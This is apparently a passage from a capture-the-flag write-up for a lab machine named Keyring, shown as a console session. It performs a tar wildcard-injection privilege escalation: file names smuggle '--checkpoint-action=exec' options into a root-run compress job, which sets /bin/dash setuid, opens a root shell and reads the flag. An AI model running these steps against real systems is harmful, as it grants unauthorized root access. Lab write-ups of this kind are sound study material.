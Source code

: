 ```console
john@keyring:~$ cat evil.sh 
#!/bin/bash
chmod 4755 /bin/dash
john@keyring:~$ touch -- "--checkpoint=1"; touch -- "--checkpoint-action=exec=sh evil.sh"
john@keyring:~$ ./compress 
john@keyring:~$ ls -al /bin/dash 
-rwsr-xr-x 1 root root 121432 Jan 25  2018 /bin/dash
john@keyring:~$ dash -p
# id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
# cd /root
# ls
root.txt
# cat root.txt

[ Keyring - Rooted ]
---------------------------------------------------
Flag : VEhNe0tleXIxbmdfUjAwdDNEXzE4MzEwNTY3fQo=
---------------------------------------------------
by infosecarticles with <3
```
